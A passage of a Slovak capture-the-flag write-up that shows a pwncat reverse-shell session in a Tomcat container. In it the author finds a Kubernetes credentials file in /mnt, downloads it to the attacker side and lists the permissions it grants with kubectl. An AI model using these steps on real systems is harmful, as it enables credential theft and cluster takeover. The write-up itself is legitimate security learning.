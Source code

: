 Po veľmi obšírnom hľadaní a mnoho znovupripojeniach som v priečinku /mnt na serveri objavil jeden config


    (remote) tomcat@jgames-55bf46984b-slpsq:/usr/local/tomcat$ cd /
    (remote) tomcat@jgames-55bf46984b-slpsq:/$ cd mnt
    (remote) tomcat@jgames-55bf46984b-slpsq:/mnt$ ls -la
    total 16
    drwxrwxrwx 2 root root 4096 Oct 28 07:34 .
    drwxr-xr-x 1 root root 4096 Oct 31 21:55 ..
    -rw-r--r-- 1 root root 5623 Oct 28 07:34 kubecreds-jacob.config
    (remote) tomcat@jgames-55bf46984b-slpsq:/mnt$ 
    (local) pwncat$ download kubecreds-jacob.config
    kubecreds-jacob.config ━━━━━━━━━━━ 100.0% • 5.6/5.6 KB • ? • 0:00:00
    [18:03:27] downloaded 5.62KiB in 0.20 seconds  download.py:71
    (local) pwncat$
    Active Session: 10.99.24.81:54983 


ktorý som si rovno stiahol

Zo zdrojákov z cgitu vieme, že nás tu zaujímaju dva namespace - sam-web a sam-queue

zadáme príkazy

	kubectl --kubeconfig=kubecreds-jacob.config auth can-i --list -n sam-web 
	kubectl --kubeconfig=kubecreds-jacob.config auth can-i --list -n sam-queue 

a zistíme, že pri sam-queue máme možnosť vytvárať a mazať configmapy

```
Resources                                       Non-Resource URLs   Resource Names   Verbs
configmaps                                      []                  []               [create delete]
selfsubjectreviews.authentication.k8s.io        []                  []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                  []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []               [create]
                                                [/api/*]            []               [get]
                                                [/api]              []               [get]
                                                [/apis/*]           []               [get]
                                                [/apis]             []               [get]
                                                [/healthz]          []               [get]
                                                [/healthz]          []               [get]
                                                [/livez]            []               [get]
                                                [/livez]            []               [get]
                                                [/openapi/*]        []               [get]
                                                [/openapi]          []               [get]
                                                [/readyz]           []               [get]
                                                [/readyz]           []               [get]
                                                [/version/]         []               [get]
                                                [/version/]         []               [get]
                                                [/version]          []               [get]
                                                [/version]          []               [get]
```

